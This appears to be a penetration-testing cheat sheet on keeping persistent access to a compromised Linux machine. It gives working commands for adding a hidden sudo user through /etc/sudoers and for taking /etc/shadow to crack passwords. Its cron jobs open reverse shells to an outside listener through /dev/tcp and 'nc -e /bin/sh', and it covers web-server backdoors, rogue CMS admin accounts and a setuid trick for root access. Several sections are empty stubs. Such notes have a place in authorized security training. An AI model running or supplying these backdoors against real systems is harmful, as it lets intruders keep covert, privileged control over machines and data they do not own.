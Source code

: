 # Persistence - Rootkit - Backdoor

So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

## Create a new user

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) .

```
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

## SSH key

Add key to existing ssh-account.

## Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```
service crond status
pgrep cron
```

If it is not started you can start it like this

```
service crond status
/etc/init.d/cron start
```

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```
nc -lvp 5556
```

Sometimes you have to set the user

```
crontab -e
*/10 * * * * pelle /path/to/binary
```


More here: http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html


## Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/

If you have a meterpreter shell you can easily just run `persistence`.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.

## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock


## Nmap

If the machine has nmap installed:

https://gist.github.com/dergachev/7916152

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor. 

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

## References


Read this
https://gist.github.com/dergachev/7916152

This is a creat introduction
http://www.dankalia.com/tutor/01005/0100501002.htm






